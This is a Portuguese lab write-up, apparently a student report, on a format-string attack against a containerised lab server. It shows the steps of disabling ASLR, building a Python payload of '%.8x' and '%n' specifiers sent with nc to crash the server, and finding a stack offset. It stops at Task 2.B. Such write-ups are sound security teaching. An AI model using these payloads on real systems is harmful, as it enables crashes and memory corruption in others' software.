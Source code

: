# Format String Attack

## Setup 

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

- Usámos o Docker Compose para construir e iniciar os containers.

```bash
$ dcbuild   # Alias para 'docker-compose build'
$ dcup      # Alias para 'docker-compose up'
```

- Num terminal diferente, após obtermos o `ID` do container desejado, acedemos a sua shell.

```bash
$ docksh 49  # Alias para 'docker exec -it <id> /bin/bash'
root@4929549778e2:/fmt#
```

## Task 1

- Mandamos a nossa primeira mensagem benigna para o servidor

```bash
$ echo 'hello' | nc 10.9.0.5 9090
^C
```

- O servidor retornou endereços importantes e termina com uma mensagem `Returned properly` visto que a nossa mensagem foi recebida com sucesso.

- Com a informação de que o servidor aceita apenas até 1500 bytes, atualizamos o ficheiro `build_string.py` para explorar essa vulnerabilidade.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*25 + "%n" # alteraçâo do número de "%.8x"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ python3 build_string.py
$ cat badfile | nc 10.9.0.5 9090
```

- O servidor desta vez não apresentou a mensagem `Returned properly` o que demonstra que o servidor crashou.

## Task 2

### Task 2.A

- Escolhemos o valor `0xdeadbeef` para meter no início do nosso input, sendo assim fácil de identificá-lo caso o servidor o imprimisse.

- Após algumas tentativas, chegámos à conclusão de que foram necessários 64 especificadores de formato `%x` para acessar a localização da stack onde o valor estava alocado.

```python
unique_value = 0xdeadbeef
content[0:4]  =  (unique_value).to_bytes(4,byteorder='little')

s = "%.8x"*64
```

![image](screenshots/LB6_1.png)

### Task 2.B


